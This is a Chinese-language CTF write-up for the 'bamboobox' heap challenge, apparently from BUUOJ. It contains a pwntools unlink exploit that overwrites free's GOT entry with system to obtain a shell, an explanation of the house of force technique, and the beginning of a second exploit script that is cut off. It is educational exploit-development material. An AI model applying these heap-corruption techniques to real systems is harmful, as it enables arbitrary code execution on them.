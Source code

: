 ```python
#gdb.attach(r)

free(1)  #执行unlink。现在ptr处装着ptr-0x18,即*ptr=ptr-0x18=0x6020c8-0x18=0x6020b0。这个位置正是itemlist前16个字节的地方
free_got=0x602018
payload=p64(0)+p64(0)+p64(0x40)+p64(free_got)  #两个p64(0)填充16个字节，0x40是大小，不要改动，把第一个内容指针覆盖为free_got
edit(0,len(fake_chunk),payload)
#gdb.attach(r)

show()  #那么就能泄露free_got的地址了
free_addr=u64(r.recvuntil("\x7f")[-6: ].ljust(8, b'\x00')) 
log.info("free_addr:%x",free_addr)
libc_base=free_addr-541936
log.info("libc_addr:%x",libc_base)
system_addr=libc_base+283536
log.info("system_addr:%x",system_addr)
edit(0,0x8,p64(system_addr))   #编辑0号堆块就是编辑free_got，改为system

#gdb.attach(r)


free(3)
r.interactive()
```

如果house of force能用的话，这题会简单不少。house of force攻击也比unlink攻击好理解，关键在于glibc对堆块的管理。在glibc尝试给用户分配堆块时，会先看各个bin，有符合大小的就返回。如果没有，就会去topchunk切割出来一块分配个用户。这个topchunk说白了还是个chunk，我们能不能溢出到topchunk呢？答案是可以。再想一下，从topchunk分配一个堆块后，topchunk的指针就会下移。如果我们能控制topchunk的指针移到目标地址，此时再分配一个chunk不就能任意地址写了吗？

不过还有几个问题需要考虑。查看glibc源码，切割topchunk之前要求topchunk有那么大，用size域来表示。这个不难解决，前面提到能够溢出到topchunk，就能改它的size，直接改成0xffffffffffffffff，这还不够就见鬼了。另一个问题是假如我们想分配到的chunk地址比现有的topchunk地址高，怎么办？可以申请一个负数大小的chunk，根据计算机数字的[二进制原理](https://zhuanlan.zhihu.com/p/99082236)，就可以把topchunk指针抬升到目标地址了。

```python
from pwn import *

#p=remote("node3.buuoj.cn",27403)
p=process("./bamboobox")
elf=ELF('./bamboobox')
context.log_level="debug"

def add(length,name):
	p.recvuntil(":")
	p.sendline('2')
	p.recvuntil(':')
	p.sendline(str(length))
	p.recvuntil(":")
	p.sendline(name)
 
def edit(idx,length,name):
	p.recvuntil(':')
	p.sendline('3')
	p.recvuntil(":")
	p.sendline(str(idx))
	p.recvuntil(":")
	p.sendline(str(length))
	p.recvuntil(':')
	p.sendline(name)
 
def free(idx):
	p.revcuntil(":")
	p.sendline("4")
	p.recvuntil(":")
	p.sendline(str(idx))
 
```